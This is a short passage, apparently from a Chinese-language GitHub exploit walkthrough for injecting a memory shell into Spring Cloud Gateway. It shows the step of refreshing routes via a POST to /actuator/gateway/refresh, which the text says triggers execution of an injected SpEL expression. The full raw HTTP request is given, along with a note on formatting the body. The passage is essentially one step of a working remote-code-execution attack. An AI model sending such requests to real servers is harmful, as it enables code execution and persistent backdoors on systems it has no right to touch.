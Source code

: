 ![Spring-Cloud-Gateway-MemShell-0](assets/Spring-Cloud-Gateway-MemShell-0.png)

刷新路由，此时将触发并执行 SpEL 表达式。需要注意的是，请求体中需要空一行，否则发送后会一直`waitting`，下同
```http
POST /actuator/gateway/refresh HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
![Spring-Cloud-Gateway-MemShell-1](assets/Spring-Cloud-Gateway-MemShell-1.png)
